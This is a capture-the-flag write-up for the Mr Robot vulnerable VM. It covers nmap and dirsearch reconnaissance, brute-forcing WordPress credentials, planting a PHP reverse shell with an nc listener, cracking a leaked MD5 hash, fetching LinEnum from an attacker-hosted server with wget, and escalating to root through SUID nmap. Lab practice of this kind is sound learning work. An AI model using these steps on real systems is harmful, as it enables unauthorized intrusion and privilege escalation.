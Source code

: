 # flag 1
### the startup process
When starting any CTF like this one i scan the VM with nmap to see if there is any open services.
Upon search port 80 was open to a HTTP service
When you go to the IP:80 you will be greeted with a mr robot themed shell with afew commands you can use. 
I tried each of these and beyond the cool visuals got nothing from them.

### What i did next
I then decided to scan the directory of the site using dirsearch.
Upon completion i saw the site was using robots.txt which is a file that excludes items from webcrawling.
After opening robots.txt you will see the file name for the first flag which was then found.
You will also find a .dir file containing what i think is possible usernames to the website

# flag 2
For the next step i investigated the wordpress login i found during the dirsearch
I used burpsuite with the dictionary found during flag one and got the username "elliot"
I then used the found username with the same dic file to try get the password

### tools used
I could of continued to use burpsuite but its slow for such a large dataset.
I decided to use WPScan as it allows for faster password attacks since its not limited 

After the wordlist i found earlier had ran for abit i got the password.

### PHP reverse shell
Once i had access to the wordpress i needed to find a way to get a shell on my terminal from the vulnerable machine

For this i used a PHP reverse shell exploit from Pentestmonkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
I inserted the code into the archive.php site and then when i go to this site the exploit will auto execute giving me a reverse shell
First i set up the listener
```
└─$ nc -nvlp 8080      
listening on [any] 8080 ...
```

then when i went to the site i got the execution of exploit and a shell in my terminal 
```
connect to [IP] from (UNKNOWN) [IP] 50319
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:45:12 up 13:26,  0 users,  load average: 0.00, 0.01, 0.38
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### what i found using the reverse shell
in the /home/robot/ directory is two files
key-2-of-3.txt
and a password hash

I cannot access the key without the correct permissions so for this we will need to crack the password hash.
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```
is the password has for robots user
For the cracking of the hash i used a online md5 cracking website
That successfully gives you the password

### the trouble
After this i was stuck on how to login to the user i had now got the password for.
I tried to SSH into it but couldnt get passed a connection fail
This is when someone suggested i needed to include the bin/bash folder so using python i did this with the command
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
after this i could login as robot by doing 
```
su robot
```
and the password

Once i had the user set as robot i was able to go to /home/robot and open key-2-of-3.txt successfully getting the key

# flag 3

To get the root shell i needed more information so i put LinEnum on a webserver and downloaded it to the shell i had created in flag 2 using
```
wget IP:port/LinEnum.sh
chmod -x LinEnum.sh
```
I then ran the script and found this
```
[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```
This tells me i can exploit the nmap install on the server
I went to GTFOBins and looked for NMAP

I had to find the version of nmap running so i did 
` /usr/local/bin/nmap `
and found it was version 3.81
meaning i could run the command

```
nmap --interactive
!sh
```
After this you will have root access and in the root folder you will find key-3-of-3.txt

# complete! 
## What did i learn
- NMAP Scanning for open services
- webcrawling from the terminal
- using wordlists to find username and passwords
- creating a reverse shell using already avaliable tools
- stablizing a shell using python
- Using shells
- Hosting my own files to a webserver
- using LinEnum to identify potential flaws in a system
- exploiting SUIDs using GTFOBins
- Exploring linux filesystems

Overall i learned alot

